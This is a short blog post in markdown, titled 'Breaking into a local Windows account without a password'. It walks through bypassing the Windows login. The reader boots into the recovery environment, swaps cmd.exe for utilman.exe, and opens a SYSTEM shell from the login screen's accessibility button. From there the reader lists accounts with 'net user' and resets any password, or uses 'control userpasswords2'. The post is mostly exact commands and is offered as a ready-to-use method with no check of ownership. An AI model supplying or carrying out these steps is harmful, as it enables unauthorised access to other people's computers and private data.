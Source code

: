 ```yaml
---
title: 'Breaking into a local Windows account without a password'
description: "Local Windows password are hilariously easy to reset. Here's how to reset a Windows password using a standard Windows installation USB."
pubDate: 2024-04-28
author: 'Bassim Shahidy'
tags: ['Windows', 'Password', 'Reset', Hack]
---
```


To reset a windows password without knowing the password or logging in, you will need to boot into advanced options to access a command prompt.

1. Boot into Advanced Options
    - From login screen hold `Shift` and click `Restart`
    - From Windows Recovery Environment, select `Troubleshoot`
2. Open Command Prompt
    - cd to `C:`
    - cd to `windows\system32`
3. Run `ren utilman.exe utilman1.exe`, disregard any errors
4. Run `ren cmd.exe utilman.exe`
5. Exit CMD, continue to Windows
6. At login screen, click accessibility button next to power button, this will open CMD
7. Run `net user` to list users
8.  Reset password with `net user [username] *`

Or

Password can also be reset through User Accounts GUI

6. Run `control userpasswords2`

